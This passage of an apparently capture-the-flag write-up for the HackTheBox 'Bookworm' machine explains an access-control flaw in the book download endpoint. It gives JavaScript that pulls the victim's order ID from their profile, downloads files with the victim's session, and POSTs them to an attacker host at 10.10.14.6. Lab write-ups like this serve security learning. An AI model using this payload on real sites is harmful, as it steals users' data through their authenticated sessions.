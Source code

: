     /Type /Catalog
    /Pages 1 0 R
    /OpenAction [3 0 R /FitH null]
    /PageLayout /OneColumn
    >>
    endobj
    xref
    0 8
    0000000000 65535 f
    0000000272 00000 n
    0000000455 00000 n
    0000000009 00000 n
    0000000087 00000 n
    0000000359 00000 n
    0000000559 00000 n
    0000000668 00000 n
    trailer
    <<
    /Size 8
    /Root 7 0 R
    /Info 6 0 R
    >>
    startxref
    771
    %%EOF
    

#### Download Multiple

I’m curious to see what comes back when I try to download multiple books at
the same time. It seems unlikely that it would be a single PDF, and more
likely some kind of archive.

I wasted a ton of time trying to write JavaScript that would check each order
page for a “Download everything” link and visit it. I’m sure it’s possible,
but the JS was getting complex and very difficult to troubleshoot blindly and
over 4-5 minute waits.

Eventually I decided to try seeing how tied to the current user to download
is. The order ID in the URL must match the current user, or nothing comes
back. But it doesn’t seem that that books are checked to see if they are in
the current order. That means I can just grab an order ID from the profile and
then download any books I want:

    
    
    fetch('/profile', {credentials: 'include'})
    .then((resp) => resp.text())
    .then((resptext) => {
      order_id = resptext.match(/\/order\/(\d+)/);
      fetch("http://bookworm.htb/download/"+order_id[1]+"?bookIds=1&bookIds=2", {credentials: 'include'})
      .then((resp2) => resp2.blob())
      .then((data) => {
        fetch("http://10.10.14.6/exfil", { 
          method: "POST",
          mode: 'no-cors',
          body: data
        });
      });
    });
    